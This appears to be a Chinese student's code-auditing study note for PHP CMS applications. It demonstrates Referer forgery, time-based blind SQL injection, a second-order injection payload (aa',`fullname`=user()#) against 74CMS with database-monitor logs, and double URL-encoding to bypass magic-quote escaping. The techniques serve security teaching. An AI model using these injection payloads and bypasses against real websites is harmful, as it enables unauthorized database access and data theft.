

思维导图


### **代码审计教学计划:**

- 审计项目漏洞Demo->审计思路- >完整源码框架- >验证并利用漏洞

### **代码审计教学内容:**

- PHP,JAVA网站应用，引入框架类开发源码,相关审计工具及插件使用

### **代码审计必备知识点:**

- 环境安装搭建使用，相关I具插件安装使用，掌握前期各种漏洞原理及利用

### **代码审计开始前准备:**

- 审计目标的程序名，版本，当前环境(系统中间件脚本语言等信息)，各种插件等简易 SQL 注入代码段分析挖掘思路

### 代码审计挖掘漏洞根本:**

- 可控变量及特定函数，不存在过滤或过滤不严谨存在绕过导致的安全漏洞


# 知识点

## 思路

```txt
定点挖掘关键字：
可控变量
		变量接受get post接受关键字$_ GET $_POST等
		//$_id=$_REQUEST['id']

特定函数：
		输出print echo
		数据库操作
		//$result = mysql_query($sql);
特定关键字:
		select insert update sql执行语句== sq|注漏洞
		
搜索特定关键字尝试寻找特定漏洞
如:搜索echo print尝试挖掘的就是xss漏洞
如:搜索$_ GET $_ POST尝试挖掘的就是安全漏洞


定点挖掘功能点：
如:我要挖掘文件上传,会员中心存在文件上传的操作地址, 抓包分析找到源码中的特定文件代码段,进行文件上传代码分析挖掘! 

拓展:视漏洞而定
sq|注入数据库监控-监控到当前页面和数据库的交互过程(SQL执行语句)
断点调试:访问页面对应代码进行断点调试(执行过程前后顺序，调用文件列表等)


```

# 演示实例

## QQ 业务图标点亮系统挖掘-数据库监控追踪


搜索不到关键字，是因为关键字封装了


要找有变量的语句


根据函数的返回值进行响应

尝试访问

v144.php


查找从哪里来，滚回哪里去！


```php

  $sohuquan=array($_SERVER['HTTP_HOST'],"www".$_SERVER['HTTP_HOST']);

$url= @$_SERVER["HTTP_REFERER"];   //获取完整的来路URL

$str= str_replace("http://","",$url);  //去掉http://
$strdomain = explode("/",$str);               // 以“/”分开成数组
$domain    = $strdomain[0];              //取第一个“/”以前的字符

if(!in_array($domain , $sohuquan)){

    EXIT("从哪里来，滚回哪里去！");
}  
```


因为直接访问，没有http-referer，$domain不在$sohuquan中，

就,EXIT("从哪里来，滚回哪里去！");

伪造个referer


就不是刚才的语句了。


查找请输入完整


```php
if($_GET['api']=="ok"){
    
 if($_GET['u']=="" || $_GET['p']=="" || $_GET['id']==""){
    
    EXIT("请输入完整");
    
}
```

伪造数据，满足条件


语句执行 ，购买失败


查询数据库有5列

select 1,2,3,4,5 


没有回显信息，尝试延时注入（确实有延迟）


## 74CMS 人才招聘系统挖掘-2 次注入应用功能(自带转义)


自带转义函数—addslashes_deep

功能相当于php魔术引号函数

```php
function addslashes_deep($value)
{
    if (empty($value))
    {
        return $value;
    }
    else
    {
		if (!get_magic_quotes_gpc())
		{
		$value=is_array($value) ? array_map('addslashes_deep', $value) : mystrip_tags(addslashes($value));
		}
		else
		{
		$value=is_array($value) ? array_map('addslashes_deep', $value) : mystrip_tags($value);
		}
		return $value;
    }
}
```

复习一下

二次注入原理：


二次注入（宽字节也可以）绕过魔术引号


```sql
注册用户: insert xiaodi union select'
过滤: xiaodi union select\'
进入数据库: xiaodi union select'
修改用户: update xiaodi union select' 条件=用户名是谁xiaodi' union select update注入

二次注入原理:绕过转义注入  魔术引号
```

进入填写简历页面（能够把信息存进数据库的页面）

填写简历，提交


打开审计插件——mysql监控

更新，刚才提交的语句，进行的数据库操作


根据填写简历界面url，打开看文件，搜索make2

```txt
http://127.0.0.1/74/user/personal/personal_resume.php?act=make2&pid=1
```


和网站页面对应上了


此时数据库的语句，虽然满足二次注入的条件，先插入后更新，但是此时更新的语句不符合（和我们填写的数据无关）


那就继续


mysql监控 更新（先下断，再点更新）


填写的选项被数字代替了（我们无法改变）

这一步也G了

继续


更新，发现此时我们填写的数据，在查询语句中。但是还是不符合二次注入条件

只更新，没有插入！

我们必须要找到

- 变量可控
- 插入数据   更新数据


继续填写信息


更新数据库监控


发现有插入和更新

且我们填写的数据在语句中

```sql
2022/4/14 20:49	INSERT INTO qs_resume (`id`, `subsite_id`, `uid`, `display`, `display_name`, `audit`, `title`, `fullname`, `sex`, `sex_cn`, `nature`, `nature_cn`, `trade`, `trade_cn`, `birthdate`, `height`, `marriage`, `marriage_cn`, `experience`, `experience_cn`, `district`, `sdistrict`, `district_cn`, `wage`, `wage_cn`, `householdaddress`, `education`, `education_cn`, `tag`, `telephone`, `email`, `email_notify`, `qq`, `address`, `website`, `recentjobs`, `intention_jobs`, `specialty`, `photo`, `photo_img`, `photo_audit`, `photo_display`, `addtime`, `refreshtime`, `talent`, `complete`, `complete_percent`, `user_status`, `key`, `click`, `tpl`) VALUES ('1', '0', '1', '1', '1', '1', 'hahah', 'liandy', '1', '\xC4\xD0', '62', 'ȫְ', '1', '\xBC\xC6\xCB\xE3\xBB\xFA\xC8\xED\xBC\xFE/Ӳ\xBC\xFE', '1987', '180', '1', 'δ\xBB\xE9', '79', '10\xC4\xEA\xD2\xD4\xC9\xCF', '1', '39', '\xB1\xB1\xBE\xA9\xCA\xD0/\xB3\xAF\xD1\xF4\xC7\xF8', '59', '3000~5000Ԫ/\xD4\xC2', 'asdasf', '66', '\xB8\xDF\xD6\xD0', '155,\xD0\xCE\xCF\xF3\xBA\xC3|159,\xBC\xBC\xCA\xF5\xBE\xAB\xBA\xB7', '18740909083', '483615843@qq.com', '0', '123213231', '\xC6\xC6\xCC\xEC\xBB\xC4ˮ\xB5\xE7\xB7\xD1\xC4\xC7ô\xBE\xC3', '\xCBƶ\xAE\xB7Ƕ\xAE\xB7ǹٷ\xBD\xB5\xC4', '', '\xC8\xED\xBC\xFE\xCF\xEEĿ\xBE\xAD\xC0\xED/\xD6\xF7\xB9\xDC', 'xxxx', '0', '', '1', '1', '1649938209', '1649940585', '1', '1', '60', '1', 'liandy \xC8\xED\xBC\xFE\xCF\xEEĿ\xBE\xAD\xC0\xED/\xD6\xF7\xB9\xDC liandy0  \xC8\xED\xBC\xFE00 \xCF\xEEĿ00 \xCF\xEEĿ\xBE\xAD\xC0\xED \xBE\xAD\xC0\xED00 \xD6\xF7\xB9\xDC00 \xB8\xDF\xD6\xD000 liandy', '1', '')

2022/4/14 20:49	INSERT INTO qs_resume_education (`uid`, `pid`, `start`, `endtime`, `school`, `speciality`, `education`, `education_cn`) VALUES ('1', '1', '2019\xC4\xEA10\xD4\xC2', '2013\xC4\xEA2\xD4\xC2', 'liandy', 'liandy', '67', '\xD6м\xBC')

2022/4/14 20:49	INSERT INTO qs_resume_search_key (`id`, `display`, `uid`, `subsite_id`, `sex`, `nature`, `marriage`, `experience`, `district`, `sdistrict`, `wage`, `education`, `photo`, `refreshtime`, `talent`, `key`, `likekey`) VALUES ('1', '1', '1', '0', '1', '62', '1', '79', '1', '39', '59', '66', '0', '1649940585', '1', 'liandy \xC8\xED\xBC\xFE\xCF\xEEĿ\xBE\xAD\xC0\xED/\xD6\xF7\xB9\xDC liandy0  \xC8\xED\xBC\xFE00 \xCF\xEEĿ00 \xCF\xEEĿ\xBE\xAD\xC0\xED \xBE\xAD\xC0\xED00 \xD6\xF7\xB9\xDC00 \xB8\xDF\xD6\xD000 liandy', '\xC8\xED\xBC\xFE\xCF\xEEĿ\xBE\xAD\xC0\xED/\xD6\xF7\xB9\xDC,,xxxx,liandy')


2022/4/14 20:49	UPDATE qs_resume SET `photo`='0', `complete`='1', `complete_percent`='60', `key`='liandy \xC8\xED\xBC\xFE\xCF\xEEĿ\xBE\xAD\xC0\xED/\xD6\xF7\xB9\xDC liandy0  \xC8\xED\xBC\xFE00 \xCF\xEEĿ00 \xCF\xEEĿ\xBE\xAD\xC0\xED \xBE\xAD\xC0\xED00 \xD6\xF7\xB9\xDC00 \xB8\xDF\xD6\xD000 liandy', `refreshtime`='1649940585' WHERE uid='1' AND id='1'


2022/4/14 20:49	UPDATE qs_resume_search_key SET `sex`='1', `nature`='62', `marriage`='1', `experience`='79', `district`='1', `sdistrict`='39', `wage`='59', `education`='66', `photo`='0', `refreshtime`='1649940585', `talent`='1', `key`='liandy \xC8\xED\xBC\xFE\xCF\xEEĿ\xBE\xAD\xC0\xED/\xD6\xF7\xB9\xDC liandy0  \xC8\xED\xBC\xFE00 \xCF\xEEĿ00 \xCF\xEEĿ\xBE\xAD\xC0\xED \xBE\xAD\xC0\xED00 \xD6\xF7\xB9\xDC00 \xB8\xDF\xD6\xD000 liandy', `likekey`='\xC8\xED\xBC\xFE\xCF\xEEĿ\xBE\xAD\xC0\xED/\xD6\xF7\xB9\xDC,,xxxx,liandy' WHERE uid='1' AND id='1'


2022/4/14 20:49	UPDATE qs_resume_tmp SET `photo`='0', `complete`='1', `complete_percent`='60', `key`='liandy \xC8\xED\xBC\xFE\xCF\xEEĿ\xBE\xAD\xC0\xED/\xD6\xF7\xB9\xDC liandy0  \xC8\xED\xBC\xFE00 \xCF\xEEĿ00 \xCF\xEEĿ\xBE\xAD\xC0\xED \xBE\xAD\xC0\xED00 \xD6\xF7\xB9\xDC00 \xB8\xDF\xD6\xD000 liandy', `refreshtime`='1649940585' WHERE uid='1' AND id='1'


```

然后开始绕过，继续添加信息，保存

payload（一开始坑坏我了，fullname 是被反引号括起来的）

```sql
aa',`fullname`=user()#
```


更新数据库监控

插入语句中  aa'  是被转意了  

```
2022/4/14 21:25	INSERT INTO qs_resume_education (`uid`, `pid`, `start`, `endtime`, `school`, `speciality`, `education`, `education_cn`) VALUES ('1', '1', '2020\xC4\xEA3\xD4\xC2', '2012\xC4\xEA8\xD4\xC2', 'aa\',`fullname`=user()#', 'aa\',`fullname`=user(', '70', '\xB1\xBE\xBF\xC6')
```

更新语句没有被转意

```
2022/4/14 21:25	UPDATE qs_resume SET `photo`='0', `complete`='1', `complete_percent`='73', `key`='aa',`fullname`=user()# aa','fullname=user()# liandy \xC8\xED\xBC\xFE\xCF\xEEĿ\xBE\xAD\xC0\xED/\xD6\xF7\xB9\xDC liandy0  \xC8\xED\xBC\xFE00 \xCF\xEEĿ00 \xCF\xEEĿ\xBE\xAD\xC0\xED \xBE\xAD\xC0\xED00 \xD6\xF7\xB9\xDC00 \xB8\xDF\xD6\xD000 liandy aa','fullname=user( aa',`fullname`=user(', `refreshtime`='1649942748' WHERE uid='1' AND id='1'
```


返回查看简历


## 苹果 CMS 影视建站系统挖掘-数据库监控追踪(自带过滤)

MySQL-Monitor 安装及使用

把这几个文件放在网站www路径下

- mysql_monitor_server.php
- mysql_monitor_cls.php
- mysql_monitor_client.html
- last_count.dat
- assets文件夹

然后访问127.0.0.1/mysql_monitor_client.html


搜索 liandy




监控数据库


网页url 

```sql
http://127.0.0.1/maccms8/index.php?m=vod-search
```

根据url查看代码文件

```txt
参数m以get方式传参，strpos()函数查找字符串在另一字符串中第一次出现的位置。
```


inc/module/vod.php


转义

be函数先进行魔术引号过滤，再根据传参方式的不同选择过滤 


过滤关键字


发现我下载的cms和视频演示的版本不同，其中没有chksql方法，

视频中的大概意思是

\  ---url编码--->   %5c 


 %5c -----url编码------>   %25%35%43


双重编码

\  ---url编码--->   %5c -----url编码------>   %25%35%43   


get方式会识别url编码


```sql
利用双重编码绕过

%25%35%43  ------->  %5c ---get方式会识别url编码----->  \

aa’     正常是会被转义(魔术引号)成    aa\'
魔术引号功能：所有的'(单引号),"(双引号), (反斜线)和NULL 字符都会被自动加上一个\(反斜线)

aa%25%35%43’   ----->    aa\\'
```

不知道具体这个sql语句具体都经过了那些处理，不知道理解的对不对，感觉不太对！

# 资源

相应cms

链接：https://pan.baidu.com/s/1cGqcNKbGOtmAZgpqRulFRw?pwd=qhqv 
提取码：qhqv

MySQL-Monitor https://github.com/cw1997/MySQL-Monitor 

